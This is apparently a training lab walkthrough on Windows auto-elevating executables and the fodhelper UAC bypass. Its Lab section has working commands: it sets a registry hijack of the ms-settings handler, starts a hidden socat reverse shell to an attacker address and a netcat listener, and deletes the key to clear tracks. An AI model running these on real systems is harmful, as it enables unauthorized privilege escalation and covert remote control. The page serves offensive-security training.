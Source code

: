 # AutoElevating processes

Some executables can autoelevate, achieving high IL without any user intervention. This applies to most of the 
Control Panel's functionality and some executables provided with Windows.

* `mmc.exe` will auto elevate depending on the `.msc` snap-in that the user requests. Most of the `.msc` files included with Windows will auto elevate.
* Windows keeps an additional list of executables that auto elevate even when not requested in the manifest. This list includes `pkgmgr.exe` and `spinstall.exe`.
* `COM` objects can also request auto-elevation by [configuring some registry keys](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker).

For an application, to auto-elevate:

* The executable must be signed by the Windows Publisher.
* The executable must be contained in a trusted directory, like `%SystemRoot%/System32/` or `%ProgramFiles%/`.

Depending on the type of application, additional requirements may apply:

* Executable files must declare the `autoElevate` element inside their manifests. 

To check a file's manifest using sigcheck (part of the Sysinternals suite):

```text
C:\tools\> sigcheck64.exe -m c:/windows/system32/msconfig.exe
...
<asmv3:application>
	<asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
		<dpiAware>true</dpiAware>
		<autoElevate>true</autoElevate>
	</asmv3:windowsSettings>
</asmv3:application>
```

## Fodhelper

`Fodhelper.exe` is one of Windows default executables in charge of managing Windows optional features, including 
additional languages, applications not installed by default, or other operating system characteristics. Like most of 
the programs used for system configuration, fodhelper can auto elevate when using default `UAC` settings so that 
administrators won't be prompted for elevation when performing standard administrative tasks. 

fodhelper can be abused without having access to a GUI. It can be used through a medium integrity remote shell and 
leveraged into a fully functional high integrity process. This particular technique was discovered by 
[winscripting](https://winscripting.blog/2017/05/12/first-entry-welcome-and-`UAC`-bypass/) and has been used in the 
wild by the Glupteba malware.

When Windows opens a file, it checks the registry to know what application to use. The registry holds a key known as 
Programmatic ID (`ProgID`) for each filetype, where the corresponding application is associated. When for example, 
trying to open an HTML file, a part of the registry known as the `HKEY_CLASSES_ROOT` will be checked so that the 
system knows that it must use your preferred web client to open it. The command to use will be specified under the 
`shell/open/command` subkey for each file's `ProgID`. 

In reality, `HKEY_CLASSES_ROOT` is just a merged view of two different paths on the registry:

| Path	                               | Description                     |
|:------------------------------------|:--------------------------------|
| HKEY_LOCAL_MACHINE\Software\Classes | System-wide file associations   |
| HKEY_CURRENT_USER\Software\Classes  | Active user's file associations |

When checking `HKEY_CLASSES_ROOT`, if there is a user-specific association at `HKEY_CURRENT_USER` (`HKCU`), it will 
take priority. If no user-specific association is configured, then the system-wide association at `HKEY_LOCAL_MACHINE` 
(`HKLM`) will be used instead. This way, each user can choose their preferred applications separately if desired.

`fodhelper` searches the registry for a specific key of interest under the ms-settings `ProgID`. By creating an 
association for that `ProgID` in the current user's context under `HKCU`, we will override the default system-wide 
association and, therefore, control which command is used to open the file. Since `fodhelper` is an `autoElevate` 
executable, any subprocess it spawns will inherit a high integrity token, effectively bypassing `UAC`.

## Lab

Note: Defender is disabled. For abusing fodhelper with Defender enabled, see [Improve fodhelper exploit](fodhelper.md).

One of our agents has planted a backdoor on the target server for your convenience. He managed to create an account 
within the Administrators group, but `UAC` is preventing the execution of any privileged tasks. To retrieve the flag, 
he needs you to bypass `UAC` and get a fully functional high IL shell.

To connect to the backdoor:

    nc MACHINE_IP 9999

Once connected, check if our user is part of the Administrators group and that it is running with a medium integrity 
token:

```text
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
myserver\attacker

C:\Windows\system32>net user attacker | find "Local Group"
net user attacker | find "Local Group"
Local Group Memberships      *Administrators       *Users                

C:\Windows\system32>whoami /groups | find "Label"
whoami /groups | find "Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
```

Set the required registry values to associate the ms-settings class to a reverse shell using socat. 
we need to create an empty value called DelegateExecute for the class association to take effect. If this registry 
value is not present, the operating system will ignore the command and use the system-wide class association instead.

```text
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.
```

Set up a listener on the attack machine:

    nc -lvp 4444

And execute fodhelper on the target machine:

    C:\> fodhelper.exe

In the reverse shell, check:

```text
C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\High Mandatory Level                          Label            S-1-16-12288
```

Get the flag:

```text
C:\> C:\flags\GetFlag-fodhelper.exe
```

And clear tracks:

    reg delete HKCU\Software\Classes\ms-settings\ /f